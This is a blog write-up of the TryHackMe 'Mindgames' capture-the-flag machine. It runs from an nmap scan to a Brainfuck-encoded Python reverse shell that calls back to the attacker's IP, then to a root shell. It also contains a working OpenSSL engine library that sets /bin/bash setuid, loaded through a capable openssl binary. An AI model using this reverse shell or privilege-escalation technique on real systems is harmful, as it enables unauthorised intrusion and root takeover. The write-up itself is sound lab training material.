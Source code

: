 ```yaml
---
date: 2020-06-12 21:12:32
layout: post
title: "Mindgames"
subtitle: Hard Machine from Tryhackme
description: 
image: /writeup/assets/img/mindgames/mindgames.png
optimized_image:
category: tryhackme
tags: hard
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/mindgames">Link</a> to the machine on tryhackme.

I started with the nmap scan to look for open ports.
```bash
nmap -T4 -p- -A 10.10.132.232
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 03:14 IST
Nmap scan report for 10.10.132.232
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   326.10 ms 10.9.0.1
2   326.18 ms 10.10.132.232

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.36 seconds

```

Found 2 open ports. Accessed the site hosted on port 80 to find obfuscated text called Brainfuck programming language.
![placeholder](/writeup/assets/img/mindgames/site.png "site")
Decrypted the examples given on site using <a href="https://www.dcode.fr/brainfuck-language">Dcode.fr</a>
![placeholder](/writeup/assets/img/mindgames/print.png "helloworld")

The Brainfuck code translated into the python3 commands.

Created a payload of python reverse shell in Brainfuck language by using this <a href="https://copy.sh/brainfuck/text.html">Website</a>
```python3
import os

os.system('bash -c "bash -i >& /dev/tcp/10.9.12.192/8888 0>&1"')
```
![placeholder](/writeup/assets/img/mindgames/payload.png "payload")

Executed the payload through the website homepage to get a reverse shell.

Found the user.txt

Ran Linpeas on the machine and found some interesting capabilities.
![placeholder](/writeup/assets/img/mindgames/cap.png "capabilities")
 
 So the openssl binary was given permission to *setuid*
 
 Went to GTFObins and found that openssl command can be used to load specific shared libraries to execute commands.
![placeholder](/writeup/assets/img/mindgames/so.png "sharedlibrary")

Tried to create a .so file from simple c++ code. But falied.

Found this <a href="https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/">page</a> and used the code from it to create .so file.
```c
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod u+s /bin/bash");
  system("echo done");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Made a shared library out of this c++ code.
```bash
gcc -c fPIC test.c -o test
gcc -shared -o test.so -lcrypto test
```

Uploaded the file to the machine using wget,
```bash
wget http://10.9.12.192/test.so
``` 
Executed the following command from GTFObins to make the bash binary a SUID binary.
```
openssl req -engine /home/mindgames/test.so
```
![placeholder](/writeup/assets/img/mindgames/rce.png "rce")
This made the bash binary a SUID binary.

```bash 
bash -p
```
Got the root shell and found root.txt.
![placeholder](/writeup/assets/img/mindgames/root.png "root") 
